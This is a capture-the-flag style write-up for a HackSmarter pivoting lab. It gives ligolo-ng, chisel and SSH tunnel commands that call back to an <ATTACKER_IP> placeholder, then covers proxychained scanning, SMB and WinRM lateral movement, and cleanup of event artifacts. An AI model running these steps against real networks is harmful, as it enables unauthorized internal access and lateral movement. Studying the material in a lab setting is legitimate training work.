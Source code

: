 # PivotSmarter — HackSmarter Lab (Full Write‑Up)

[![Platform](https://img.shields.io/badge/Platform-HackSmarter-blue)](#) [![Category](https://img.shields.io/badge/Category-Pivoting%20%26%20Internal%20Recon-orange)](#) [![Difficulty](https://img.shields.io/badge/Difficulty-Medium-lightgrey)](#)

Public walkthroughs are allowed for HackSmarter, so this is the **full** write‑up.

---

## 📌 TL;DR
- Establish a **SOCKS** or **TUN** pivot from the foothold.
- Enumerate internal subnets from your box (not from inside the victim shell).
- Chain pivots where needed (multi‑hop) and keep routes clean.
- Use built‑ins where you can (SSH, netsh) and standardized agents (ligolo‑ng / chisel) elsewhere.
- Validate AD/host reachability, then execute with minimal noise.

---

## 🗺️ Lab Topology (conceptual)
```text
Attacker (10.200.0.228)
  └─[FOOTHOLD 1] 10.10.10.0/24
     └─[INTERNAL 2] 10.10.20.0/24
        └─[CORE/AD/DC] 10.10.30.0/24
```
*Subnets are illustrative—replace with the actual ranges discovered in your run.*

---

## 🧰 Tooling Quickstart
- **ligolo‑ng** (SOCKS or TUN mode) – recommended for stable, multi‑hop pivots
- **chisel** (SOCKS or TCP port‑forward) – lightweight alternative
- **SSH** `-D` (SOCKS) / `-L` / `-R` – when SSH service is present
- **proxychains** (Linux) – route arbitrary tools via SOCKS5
- **nxc** (NetExec) – SMB/WinRM/MSSQL/RDP with `--proxy` support
- **nmap/rustscan** – scanning through proxies (selective ports), or raw via TUN
- **BloodHound/SharpHound** – AD graphing once you have creds/LDAP path

> Tip: prefer **TUN** for full‑stack tools (ICMP, LDAP signing detection, Kerberos), and **SOCKS** for quick web/SMB/WinRM reachability.

---

## 1) Initial Foothold
Perform standard recon to land a shell or creds on the first pivot host (FOOTHOLD 1). Common paths:
- Web → RCE / creds
- SSH with discovered credentials
- MSSQL/WinRM with low‑priv account

Once you have any execution path on FOOTHOLD 1, proceed to a **pivot**.

---

## 2) SOCKS Pivot (Quick)
### Option A: ligolo‑ng (SOCKS only)
**Attacker:**
```bash
./relay -laddr 0.0.0.0:11601 -autocert -socks 127.0.0.1:1080
```
**Foothold:**
```powershell
agent.exe -connect <ATTACKER_IP>:11601 -ignore-cert
```
**Proxychains (attacker):** edit `/etc/proxychains4.conf`:
```
socks5  127.0.0.1 1080
```
Run tools through the proxy:
```bash
proxychains -q nxc smb 10.10.20.0/24 -u '' -p '' --shares
proxychains -q crackmapexec winrm 10.10.20.25 -u user -p pass
```

### Option B: chisel (SOCKS)
**Attacker:**
```bash
chisel server -p 1080 --socks5
```
**Foothold:**
```bash
./chisel client <ATTACKER_IP>:1080 socks
```
Then use `proxychains` as above.

> Notes
> - Large `nmap` scans via SOCKS are unreliable; scan select ports (`-p 80,445,5985,3389`) or move to **TUN** mode.

---

## 3) TUN Pivot (Full IP routing)
### ligolo‑ng (recommended)
**Attacker:**
```bash
./relay -laddr 0.0.0.0:11601 -autocert -tun
sudo ip tuntap del dev ligolo mode tun 2>/dev/null || true
sudo ip tuntap add dev ligolo mode tun user $USER
sudo ip link set ligolo up
```
**Foothold:**
```powershell
agent.exe -connect <ATTACKER_IP>:11601 -ignore-cert
```
**Add routes (attacker):**
```bash
sudo ip route add 10.10.20.0/24 dev ligolo
sudo ip route add 10.10.30.0/24 dev ligolo
```
**Test:**
```bash
ping -c1 -I ligolo 10.10.20.25
nmap -e ligolo -Pn -n -T4 -p 80,445,5985,3389 10.10.20.0/24 --disable-arp-ping
```

### SSH native (if SSH is available on FOOTHOLD 1)
**SOCKS:**
```bash
ssh -N -D 1080 user@10.10.10.10
```
**L/R port‑forward:**
```bash
# forward remote 445 to local 8445
ssh -N -L 8445:10.10.20.25:445 user@10.10.10.10
```

---

## 4) Second Hop Pivot (FOOTHOLD 2 → INTERNAL 3)
If you compromise a second host inside, run another **ligolo agent** there and forward through the first session (`sessions` / `listen` in ligolo). Or daisy‑chain **chisel**:
```bash
# on FOOTHOLD 1 (as a relay)
./chisel server -p 9002 --reverse
# on FOOTHOLD 2
./chisel client 10.10.10.10:9002 R:socks
```

Maintain a **map** of what route hits which subnet and keep only the routes you need.

---

## 5) Enumeration & Lateral Movement
- **SMB/AD:** `nxc smb 10.10.20.0/24 -u user -p pass --shares --groups --sessions`
- **WinRM:** `nxc winrm 10.10.20.25 -u user -p pass -x "whoami /all"`
- **LDAP/ADCS:** via TUN, use `ldapsearch`, `Certify`, `Certipy`
- **BloodHound:** run SharpHound on a reachable Windows host; exfil to attacker
- **SQL:** `nxc mssql ...` (enable `xp_cmdshell` if appropriate to the lab)
- **RDP:** via TUN, `xfreerdp /v:10.10.20.25 /u:user /p:pass /dynamic-resolution`

> Tip: If DNS is internal, add a conditional forwarder on your box or `/etc/hosts` entries to resolve AD names while using TUN.

---

## 6) Common Troubleshooting
- **“Host seems down” over SOCKS:** prefer TUN for ICMP and ARP‑less scans. Add `-Pn --disable-arp-ping` to `nmap`.
- **No route / black hole:** check `ip route`, ensure the subnet matches the target’s netmask.
- **Proxy DNS leaks:** in `/etc/proxychains4.conf`, enable `proxy_dns` (and use SOCKS5).
- **Windows firewalls:** pivot via allowed egress (e.g., 443/tcp), or fall back to SSH if available.
- **Interface choice:** `nmap -e ligolo` selects the TUN; don’t mix with proxychains.

---

## 7) Cleanup
- Remove added routes: `sudo ip route del 10.10.20.0/24 dev ligolo`
- Bring down TUN: `sudo ip link set ligolo down && sudo ip tuntap del dev ligolo mode tun`
- Kill agents/relays and delete any dropped binaries
- Clear temp files and event artifacts where allowed by the lab

---

## 📝 Command Cheat Sheet
```bash
# ligolo SOCKS
./relay -laddr 0.0.0.0:11601 -autocert -socks 127.0.0.1:1080
agent.exe -connect <ATTACKER_IP>:11601 -ignore-cert
proxychains -q nxc smb 10.10.20.0/24 -u '' -p '' --shares

# ligolo TUN
./relay -laddr 0.0.0.0:11601 -autocert -tun
sudo ip tuntap add dev ligolo mode tun user $USER && sudo ip link set ligolo up
sudo ip route add 10.10.20.0/24 dev ligolo

# chisel SOCKS
chisel server -p 1080 --socks5
./chisel client <ATTACKER_IP>:1080 socks

# ssh SOCKS
ssh -N -D 1080 user@10.10.10.10
```

---

## ✅ Notes
This guide focuses on **pivoting mechanics** and safe enumeration patterns. Apply your preferred exploitation paths once a target is reachable (SMB relay, WinRM, MSSQL, ADCS, etc.).

